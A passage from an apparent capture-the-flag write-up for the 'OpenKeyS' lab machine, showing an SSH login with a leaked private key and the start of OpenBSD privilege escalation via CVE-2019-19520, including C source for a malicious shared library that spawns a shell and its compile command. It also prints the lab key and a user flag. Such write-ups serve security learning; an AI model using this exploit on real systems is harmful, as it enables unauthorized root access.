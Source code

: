     Dlq6MFiEIyVKqjv0pDM3C2EaAA38szMKGC+Q0Mky6xvyMqDn6hqI2Y7UNFtCj1b/aLI8cB
    rfBeN4sCM8c/gk+QWYIMAsSWjOyNIBjy+wPHjd1lDEpo2DqYfmE8MjpGOtMeJjP2pcyWF6
    CxcVbm6skasewcJa4Bhj/MrJJ+KjpIjQAAAMEAy/+8Z+EM0lHgraAXbmmyUYDV3uaCT6ku
    Alz0bhIR2/CSkWLHF46Y1FkYCxlJWgnn6Vw43M0yqn2qIxuZZ32dw1kCwW4UNphyAQT1t5
    eXBJSsuum8VUW5oOVVaZb1clU/0y5nrjbbqlPfo5EVWu/oE3gBmSPfbMKuh9nwsKJ2fi0P
    bp1ZxZvcghw2DwmKpxc+wWvIUQp8NEe6H334hC0EAXalOgmJwLXNPZ+nV6pri4qLEM6mcT
    qtQ5OEFcmVIA/VAAAAG2plbm5pZmVyQG9wZW5rZXlzLmh0Yi5sb2NhbAECAwQFBgc=
    -----END OPENSSH PRIVATE KEY-----

We can connect to the box using this key and get the user flag.

    :::text
    kali@kali:~$ ssh jennifer@10.10.10.199 -i id_rsa
    <snip>
    openkeys$ cat user.txt
    36ab21239a15c537bde90626891d2b10

# Root

The articles used to bypass the authentication give us a few leads about the
privilege escalation.

    :::text
    openkeys$ id
    uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)

We will use CVE-2019-19520 to gain access to the group `auth` and then use CVE-2019-19522
to get `root`

## CVE-2019-19520

First we create a temporary folder `/tmp/.plop` and create the file `swrast_dri.c`
with the following content:

    :::c
    #include <paths.h>
    #include <sys/types.h>
    #include <unistd.h>

    static void __attribute__ ((constructor)) _init (void) {
        gid_t rgid, egid, sgid;
        if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
        if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

        char * const argv[] = { _PATH_KSHELL, NULL };
        execve(argv[0], argv, NULL);
        _exit(__LINE__);
    }

We then compile it and run the command to get access to the `auth` group. *As
the author of the box implemented so cleanup script the commands needs to be run
"quickly"*:

    :::text
    openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c
